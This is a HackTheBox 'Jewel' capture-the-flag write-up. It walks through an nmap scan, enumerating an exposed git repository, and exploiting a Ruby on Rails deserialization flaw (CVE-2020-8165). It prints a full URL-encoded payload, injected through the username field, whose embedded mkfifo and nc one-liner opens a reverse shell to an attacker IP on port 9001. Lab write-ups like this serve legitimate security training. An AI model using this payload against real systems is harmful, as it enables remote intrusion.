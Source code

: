 ```yaml
---
title: HackTheBox Jewel Writeup
published: true
---
```


![](https://i.ibb.co/Q9tCD1K/logo.png)

# []()Methodlogy

* Nmap Scan
* Enumerating the web service
* found a version of ruby and exploit of it.
* server side template injection exploitation
* found the password of user bill in /var/backup
* found the secret token of Google Authenticator
* using sudo -l leads us to final part!.

# []()Nmap Scan

> **as always, i’ll do nmap scan to find out which services running in this machine, and i found these services.**

* **22 for ssh service.**
* **8000 for http**
* **8080 for nginx**

> **nmap -Pn -sC -sV -oN scan.txt 10.10.10.211**

```ruby

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fd:80:8b:0c:73:93:d6:30:dc:ec:83:55:7c:9f:5d:12 (RSA)
|   256 61:99:05:76:54:07:92:ef:ee:34:cf:b7:3e:8a:05:c6 (ECDSA)
|_  256 7c:6d:39:ca:e7:e8:9c:53:65:f7:e2:7e:c7:17:2d:c3 (ED25519)
8000/tcp open  http    Apache httpd 2.4.38
|_http-generator: gitweb/2.20.1 git/2.20.1
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.38 (Debian)
| http-title: jewel.htb Git
|_Requested resource was http://jewel.htb:8000/gitweb/
8080/tcp open  http    nginx 1.14.2 (Phusion Passenger 6.0.6)
|_http-server-header: nginx/1.14.2 + Phusion Passenger 6.0.6
|_http-title: BL0G!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

# []()Web Service Enumeration

* **let's add jewel.htb to our /etc/hosts and start enumerating the web service.**

> **i've found a basic blog on port 8080**

![](https://i.ibb.co/DVznD7p/basic-web-page.png)

* let's sign up and look deeper.

* here i'm logged in.

![](https://i.ibb.co/mXQQNP0/logged-in.png)

> **let's check the port 8000 now.**

![](https://i.ibb.co/D4QSrHB/port-8000.png)

> **it's a .git directory, let's check if there is any good things for us.**

> **click on .git and click on intial commit and yoi will find some Gem files so let's check it.**

![](https://i.ibb.co/CtdbzT0/gem-files.png)

> **in the gem file i found the ruby version**.

![](https://i.ibb.co/WxxZLx9/ruby-version.png)

> **and there's exploit for this version**

* Link: [Ruby On Rils](https://github.com/masahiro331/CVE-2020-8165)

![](https://i.ibb.co/qkHqBD3/ruby-exploit.png)

> **now we need to register a new user and put the payload in the username field to get a reverse shell.**

> **let's register a new user and click on profile and click edit and click save and intercept the request with burpsuite**.

![](https://i.ibb.co/JmP9ZpR/burp-suite.png)

> **put this payload in username filed with changing the IP address.**

* payload: **%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22U%60rm+%2Ftmp%2Ff%3Bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.10.XX.XX+9001+%3e%2Ftmp%2ff%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T**

* **send the request twice and then refresh the web page.**

* **don't forget to start nc listener.**

![](https://i.ibb.co/R6NFYFC/reverse-shell.png)

* **nice!, we got a reverse shell now.**




